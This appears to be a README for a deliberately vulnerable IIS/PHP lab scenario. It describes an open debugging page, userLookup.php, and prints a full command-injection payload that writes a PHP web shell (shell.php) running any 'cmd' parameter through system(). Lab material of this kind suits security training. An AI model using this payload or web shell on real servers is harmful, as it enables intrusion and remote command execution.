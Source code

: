 # Windows Server 2022 IIS

Files for Windows Server 2022 IIS scenario.


## Scenario

Company website using php leaves a debugging panel open that allows for php command injection.


## Exploitation

Use the insecure debugging page left open on userLookup.php to php injection a shell.php webshell page into the website.

PAYLOAD:
```
'& (echo ^<html^> & echo ^<body^> & echo ^<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>"^> &  echo ^<input type="TEXT" name="cmd" id="cmd" size="80"^> & echo ^<input type="SUBMIT" value="Execute"^> & echo ^</form^> & echo ^<pre^> & echo ^<?php & echo     if^(isset^($_GET['cmd']^)^) & echo     { & echo         system^($_GET['cmd']^); & echo     } & echo ?^> & echo ^</pre^> & echo ^</body^> & echo ^<script^>document.getElementById^("cmd"^).focus^(^);^</script^> & echo ^</html^>) > shell.php & echo '```
